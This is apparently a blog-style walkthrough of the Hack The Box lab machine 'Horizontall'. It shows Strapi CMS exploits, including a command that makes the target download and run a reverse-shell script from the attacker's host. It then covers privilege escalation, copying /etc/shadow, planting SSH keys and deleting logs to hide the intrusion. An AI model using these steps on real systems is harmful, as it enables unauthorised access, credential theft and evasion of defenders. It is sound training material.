# [Horizontall](https://app.hackthebox.com/machines/Horizontall) by [Wail99](https://app.hackthebox.com/users/4005)

```
IP = 10.10.11.105
Difficulty: Easy 
Machine OS: Linux
Learning Platform: hackthebox.eu
Finished on: Arch Linux
```

## **Reconnaissance**

### *Scoping and Preparation*

* I used my tool [CTFRecon](https://www.github.com/hambyhacks/CTFRecon) to automate directory creation, network scanning, web directory brute-forcing and adding entry to `/etc/hosts` file.

* To use [CTFRecon](https://www.github.com/hambyhacks/CTFRecon):

    ```bash
    1. git clone https://www.github.com/hambyhacks/CTFrecon
    2. cd CTFRecon
    3. chmod +x ctfrecon.sh && cp ctfrecon.sh ../ 
    #to move ctfrecon.sh to your working directory.
    4. sudo ./ctfrecon.sh [IP] [DIRECTORY NAME] [PLATFORM] [WORDLIST] 
    #platform refers to hackthebox(htb) or tryhackme(thm). Wordlist is used for GoBuster directory brute-forcing.
    ```

### *Preliminary Enumeration via nmap*

#### Table 1.1: nmap Results

PORT | STATUS | SERVICE | VERSION
:---: | :---: | :---: | :---:
22/tcp | Open | SSH (Secure Shell) |  OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp | Open | HTTP (HyperText Transfer Protocol) | nginx 1.14.0 (Ubuntu)

Machine OS: Based on OpenSSH version, machine is [Ubuntu Bionic](https://launchpad.net/ubuntu/+source/openssh/1:7.6p1-4ubuntu0.5).

## Enumeration

### *Manual Web Enumeration*

* Looking at the webpage at port 80, we are greeted by this webpage below.


* We can also look through the source code of the page.



* We can check for ``.js`` files in the source code to see if there is something interesting in it.



* Checking the ``app.c68eb462.js`` file, we can see that is obfuscated, meaning the JavaScript file is written in a way that is not human readable.


* We can use [Beautifier.io](https://beautifier.io/) to make it more readable. Copy the whole content of ``app.c68eb462.js`` and paste it in the space provided in the web app.


* We can also found it by manual checking the ``.js`` file.


* Also make sure to add ``api-prod.horizontall.htb`` to ``/etc/hosts`` file.

*Note: This is why manual enumeration is important!*

* We can now look at the subdomain of the webpage: ``api-prod.horizontall.htb``.



* Looking at the source code of ``api-prod.horizontall.htb``, we found out that it is does not help us much.



* We can also look at the web technologies used in ``api-prod.horizontall.htb`` using [Wappalyzer](https://www.wappalyzer.com/).



* We can see that the web server is using [Strapi CMS](https://strapi.io).

* Let's enumerate more using automated tools.

### *Web Enumeration using GoBuster*

* We need to find a way to enumerate the webpage further, this time we use automated tools to help us find endpoints in ``api-prod.horizontall.htb``.

* Using [GoBuster](https://github.com/OJ/gobuster), we found some interesting directories.



* As we can see above, there is an admin directory! Let's try to navigate to that.



* Nice! A login page. We can try to do some basic SQL injection. I have only done manual testing before I tried to search ``strapi`` on Google.



*Tip: When in doubt, search it in Google.*

### *Possible Exploits*

* We recently found out that ``api-prod.horizontall.htb`` is running ``strapi CMS(Content Management System)``.

    *Google search: ``strapi CMS exploit``*

* First search result gives us an unauthenticated RCE on strapi CMS! But we need to know what version the CMS is running.

* I got stucked here for a bit, but I tried to read the [documentation](https://strapi.io/documentation/developer-docs/latest/getting-started/introduction.html).

* I decided to read the python exploit script from [exploit-db](https://www.exploit-db.com/exploits/50239) and searched it on Google. It is classified as [CVE-2019-18818](https://github.com/advisories/GHSA-6xc2-mj39-q599), [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html).

* [CVE-2019-18818](https://github.com/advisories/GHSA-6xc2-mj39-q599) is an unauthenticated RCE (Remote Code Execution) which allows an attacker to reset an admin's password without providing valid password reset token.

* [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html) is an authenticated RCE which allows attackers inject arbitrary shell commands because of improper input sanitization.

* Reading the exploit script in [exploit-db](https://www.exploit-db.com/exploits/50239), the script is sending GET request to ``/admin/init``. We can try to see if it is present in the web server.



* Cool! We confirmed that the version is indeed ``3.0.0-beta.17.4``.

## Exploitation

*Steps to reproduce:*

1. Go to Exploit-db and copy [this](https://www.exploit-db.com/exploits/50239) script.
2. Open a text editor and save it as ``CVE-2019-18818.py`` (or any filename you like).
3. On your terminal, type:

    ``python3 CVE-2019-18818.py api-prod.horizontall.htb``

4. Copy the [JWT](https://jwt.io/) token produced by the script and save it for later. Output should be like this:


5. We can now login on the web server.



6. Looking back at our status, we are now authenticated as admin. We can use the exploit script [CVE-2019-19609](https://packetstormsecurity.com/files/163940/Strapi-3.0.0-beta.17.7-Remote-Code-Execution.html) to get a shell on machine.

7. On your terminal,type:

    ``python3 strapi17-4_RCE.py http://api-prod.horizontall.htb {JWT_TOKEN_HERE} 'wget http://{YOUR_IP}:{PORT}/{REVERSE_SHELL_FILE};chmod +x s.sh;bash s.sh' {YOUR_IP}``



8. Make sure http server and netcat listener are on before you hit enter.

9. Reverse shell should be downloaded and also the reverse shell should pop up.
s


## Privilege Escalation / Post-Exploitation

### *Internal Enumeration*

* SSH port is open so I assume there is ``ssh-keygen`` binary in the machine.

* To make sure we have access on the box even it errors out, we need to setup our ssh keys on ``strapi`` user.

    Syntax: ``ssh-keygen`` and keep defaults for easy access.

* Copy **your** SSH public key and add it on the machine's ``/opt/strapi/.ssh/authorized_keys``.

* We found a file named ``database.json`` on ``/myapi/config/environments/development/``


* We don't know what is the password of our current user ``strapi``. We must enumerate further more.

#### Table 1.2: Checklist for Linux Internal Enumeration

COMMAND | DESCRIPTION
:---: | :---:
``ss -tlnp``  | lists all sockets (``-t = tcp``) (``-l = listening``) (``-n = numeric``) (``-p = processes``)
``netstat -tulnp`` | &nbsp; |  &nbsp;
``sudo -l`` | lists all binaries/files/programs the current user has ``sudo`` permissions. (might require password)
``find / -type f -perm -4000 2>/dev/null`` | finds files in ``/`` directory that has [SUID](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/) bit set. If any, consult [GTFOBins](https://gtfobins.github.io/).
``uname -a`` | prints system information (-a = all)

*Notes: For more information about the commands look [here](https://explainshell.com)*

*Tip: When nothing else makes sense, try to use [LinPEAS](https://github.com/carlospolop/PEASS-ng) ([winPEAS](https://github.com/carlospolop/PEASS-ng) for windows machines.).*

### *Vertical Privilege Escalation*

* I got stucked here for a bit because I got on the rabbit hole finding the password for ``strapi`` user.

* I also read some comments on the [forum](https://forum.hackthebox.com/t/official-horizontall-discussion/243500) but I got stucked again. I read the comments again and again and I got what it needs to do.

* **ALWAYS** check if there are running services and port which does not show on nmap scan but open on the machine.

    Syntax: ``ss -tlnp``


* We found out that Laravel version is vulnerable to RCE by searching the version number in Google.



* First, we need to login again to the ssh server with port forwarding so we can see the send request through port 8000. To do this:

    Syntax: ``ssh {LOCAL_PORT}:127.0.0.1:{REMOTE_PORT} strapi@horizontall.htb``

* Download [this](https://github.com/nth347/CVE-2021-3129_exploit) exploit PoC to root the machine.


* Navigate to /root/ directory and get your root.txt flag!

### STATUS: ROOTED

The next two steps are not necessary for completion of the machine but it completes the 5 Phases of Penetration Testing.

## Post Exploitation / Maintaining Access

* Copied the /etc/shadow file for user identification and their passwords.

* Added SSH key to as root user.



## Clearing Tracks

* Removed all logs and footprints to to prevent risk of exposure of breach to security administrator.

## **Status: Finished**

Feel free to reach out and if there is something wrong about the above post. Feedbacks are also appreciated :D

### Donation Box

*Not required but appreciated :D*

[](https://ko-fi.com/hambyhaxx)

[](https://www.buymeacoffee.com/hambyhaxx)

### Socials

* [Twitter](https://twitter.com/hambyhaxx)

* [Medium](https://hambyhaxx.medium.com)

* [Hashnode](https://hambyhacks.hashnode.dev)

<-- [Go Back](https://hambyhacks.github.io)
